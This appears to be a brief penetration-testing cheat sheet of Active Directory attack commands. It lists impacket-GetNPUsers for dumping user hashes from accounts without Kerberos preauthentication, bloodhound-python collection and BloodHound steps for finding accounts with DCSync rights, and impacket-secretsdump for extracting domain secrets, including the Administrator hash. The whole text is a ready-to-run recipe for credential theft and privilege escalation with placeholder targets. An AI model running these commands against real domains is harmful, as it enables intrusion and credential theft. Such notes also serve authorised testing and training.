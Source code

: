 Request TGT & Dump User Hash
`impacket-GetNPUsers fqdn/user -dc-ip ipaddress -no-pass`

Bloodhound-Python PrivEsc Mapping
`bloodhound-python -ns ipaddress -d fqdn -c All -u user -p pass`

BloodHound Analysis
```
sudo neo4j start

./BloodHound
3 lines > Database Info > (Scroll Down) > Clear Sessions
3 lines > Database Info > (Scroll Down) > Clear Database
Upload Data (Select JSON files)

Common Strategies
3 lines > Analysis > Dangerous Privileges > Find Principals with DCSync Rights
```

Secrets Dump
```
impacket-secretsdump domain/username@ipaddress
(Enter user password at prompt)
```

Secrets Dump Just Administrator
```
impacket-secretsdump domain/username@ipaddress -just-dc-user Administrator
(Enter user password at prompt)
```


